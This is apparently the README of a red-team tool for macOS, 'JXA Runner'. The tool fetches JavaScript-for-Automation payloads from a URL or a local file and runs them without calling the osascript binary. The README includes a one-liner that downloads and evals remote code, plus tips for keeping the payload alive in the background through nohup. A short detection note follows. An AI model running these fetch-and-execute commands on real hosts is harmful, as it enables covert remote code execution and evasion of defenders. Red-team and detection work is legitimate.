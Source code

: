 # JXA Runner
Swift code to programmatically execute local or hosted JXA payloads without using the on-disk osascript binary. This is helpful when you have Terminal access to a macOS host and want to launch a JXA .js payload without using on-disk osascript commands.

## Steps

1. Ensure you have Xcode installed (which will also install Swift)
2. Open the included xcodeproj file in XCode
3. In XCode: **Product** -> **Build** to build the binary
4. The compiled binary will be dropped to something like: **/Users/[username]/Library/Developer/Xcode/DerivedData/JXARunner-[random]/Build/Products/Debug/JXARunner.app**
5. cd to the Directory in #4 above and then cd to **Contents/MacOS**
6. Then you can copy the JXARunner macho binary to wherever you plan to run it and execute it

## Usage
- For programmatically executing hosted JXA payloads:

> ./JXARunner -u [url_to_jxa_payload]

**Note: This is the programmatic alternative to the command line execution of:
*osascript -l JavaScript -e "eval(ObjC.unwrap($.NSString.alloc.initWithDataEncoding($.NSData.dataWithContentsOfURL($.NSURL.URLWithString('[url_path]')),$.NSUTF8StringEncoding)));"*

- For programmatically executing local JXA payloads:

> ./JXARunner -f [local_path_to_payload]

**Note: This is the programmatic alternative to the command line execution of:
*osascript -l JavaScvript -e "eval(ObjC.unwrap($.NSString.stringWithContentsOfFile('[filePath]')));"
## Notes
In its current form, this script does **NOT** background the JXA payload. So you will need to take care of that manually at execution time. Some options for doing so are below:

- If you want the launched JXA payload to continue even after the Terminal you are using is closed, you can run JXA Runner in this manner (note: this will cause a nohup.out file to be dropped to the current directory or to the home directory):

> nohup ./JXARunner -u [url_to_jxa_payload]

- If you want the launched JXA payload to continue after the Terminal is closed and you do not want to create the nohup.out file, you can run JXA runner in the following manner:

> nohup ./JXARunner -u [url_to_jxa_payload] > /dev/null 2>&1&

- If you simply want to spawn JXA Runner backgrounded you can run it in this manner (however, if the Terminal window is closed the JXA payload will stop running):

> ./JXARunner -u [url_to_jxa_payload] &

## Detection
If **nohup** is being used to cause the executed payload to live beyond the Terminal, searching for nohup command line executions would return this activity (and may be a good idea in general to see what else in an environment is running commands with nohup).
